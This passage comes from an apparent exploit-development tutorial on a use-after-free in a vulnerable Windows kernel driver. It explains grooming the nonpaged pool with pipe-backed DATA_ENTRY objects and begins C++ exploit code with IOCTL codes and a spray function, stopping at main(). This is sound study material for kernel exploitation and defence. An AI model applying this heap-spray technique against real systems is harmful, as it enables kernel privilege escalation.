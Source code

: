 These DATA\_ENTRY objects will be placed on the nonpaged pool and we can control their size which solves part of what we are trying to achieve. The next problem we have is that when we trigger the free in the driver and create a "hole" in memory, we can not control what is going to fill that hole – after all the kernel is very busy and could place some other object that fits there. Even if we were faster than the kernel to allocate an object of the correct size, we would still not be guaranteed to fill the spot that we freed since heap allocations on modern windows are randomized.

A way to get around that is to spray the heap with a lot of these holes, surrounded by allocations we control. This gives us a good chance to get our UAF object into one of those. After allocating and freeing the object via the vulnerable driver we allocate a huge amount of fake objects (fake objects being the ones we can create via `AllocateFakeObjectNonPagedPool`) to have a good chance to fill the exact hole the UAF object left.

To summarize:

- Allocate a lot of DATA\_ENTRY objects (CreatePipe + WriteFile)
- Free every 2nd DATA\_ENTRY object to create a lot of holes
- Allocate the UAF object and Free it (this will likely happen in one of the holes we just created)
- Allocate a lot of fake objects to fill every hole (including the one we have to hit to successfully exploit it)

This leads us to the following code:

```cpp
#include <stdio.h>
#include <Windows.h>
#include <vector>

#define QWORD ULONGLONG

#define ALLOCATE_UAF_IOCTL 0x222013
#define FREE_UAF_IOCTL 0x22201B
#define USE_UAF_IOCTL 0x222017
#define FAKE_OBJECT_IOCTL 0x22201F

void Error(const char* name) {
    printf("%s Error: %d\n", name, GetLastError());
    exit(-1);
}

typedef struct PipeHandles {
    HANDLE read;
    HANDLE write;
} PipeHandles;

PipeHandles CreatePipeObject() {
    DWORD ALLOC_SIZE = 0x70;
    BYTE uBuffer[0x28]; // ALLOC_SIZE - HEADER_SIZE (0x48)
    BOOL res = FALSE;
    HANDLE readPipe = NULL;
    HANDLE writePipe = NULL;
    DWORD resultLength;

    RtlFillMemory(uBuffer, 0x28, 0x41);
    if (!CreatePipe(&readPipe, &writePipe, NULL, sizeof(uBuffer))) {
        Error("CreatePipe");
    }

    if (!WriteFile(writePipe, uBuffer, sizeof(uBuffer), &resultLength, NULL)) {
        Error("WriteFile");
    }
    return PipeHandles{ readPipe, writePipe };
}

int main() {
    DWORD bytesWritten;
```